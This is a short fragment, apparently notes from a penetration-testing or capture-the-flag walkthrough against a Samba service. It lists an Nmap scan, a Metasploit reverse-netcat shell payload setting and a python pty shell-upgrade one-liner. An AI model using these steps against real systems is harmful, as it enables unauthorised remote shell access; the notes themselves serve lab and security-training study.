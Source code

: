 Look for a vuln in Samba
Run Nmap
$ set PAYLOAD cmd/unix/reverse_netcat
python -c 'import pty;pty.spawn("/bin/bash")'

